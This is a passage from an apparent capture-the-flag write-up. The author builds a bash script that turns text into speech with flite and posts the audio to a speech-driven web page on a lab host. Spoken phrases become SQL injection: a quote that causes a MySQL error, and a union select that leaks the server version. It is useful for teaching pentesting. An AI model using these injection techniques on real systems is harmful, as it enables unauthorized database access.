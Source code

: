     flite -w /tmp/test.wav -voice rms -t "hello world"
    

That will output the `.wav` to `/tmp/test.wav`, using the US Male voice (no
idea why that’s `rms`, but thanks Google), and it will say “hello world”.

Next, I looked at the POST requests in Burp and recreated them with `curl`:

    
    
    curl -s -X POST http://10.10.10.163/ai.php -F 'fileToUpload=@/tmp/test.wav;type=audio/x-wav' -F 'submit=Process It!' -x http://127.0.0.1:8080
    

  * `-s` will silence the output
  * `-X POST` does a POST request
  * `-F` provides fields from form submitted data, and I can use `@filename` to submit the contents of that file as data.
  * `-x` sets my proxy to Burp for troubleshooting

I’ll actually pipe the output of that into some `perl` to isolate just the
output I want, and then use `echo` and `bash` variables to format it nicely:

    
    
    #!/bin/bash
    
    flite -w /tmp/test.wav -voice rms -t "$1"
    out=$(curl -s -X POST http://10.10.10.163/ai.php -F 'fileToUpload=@/tmp/test.wav;type=audio/x-wav' -F 'submit=Process It!' -x http://127.0.0.1:8080 | perl -0777 -ne '/<h3>(.*)<h3>/ && print $1,"\n";')
    echo -e "${out/<br \/>/\\n}"
    

When I run this, I get both the understanding of my input, and any query
result:

    
    
    root@kali# ./query_ai.sh "open single quote"
    Our understanding of your input is : '
    Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
    

### Enumerate Database

Standard SQL Injection practices were made almost impossible because of the
need to submit it as a audio request. I could get something like the version:

    
    
    root@kali# ./query_ai.sh "open single quote space union select version open parenthesis close parenthesis comment database"
    Our understanding of your input is : '  union select version()-- -
    Query result : 5.7.27-0ubuntu0.18.04.1
    

But many other things were too difficult. For example, I couldn’t get it to
see `schema`:

    
    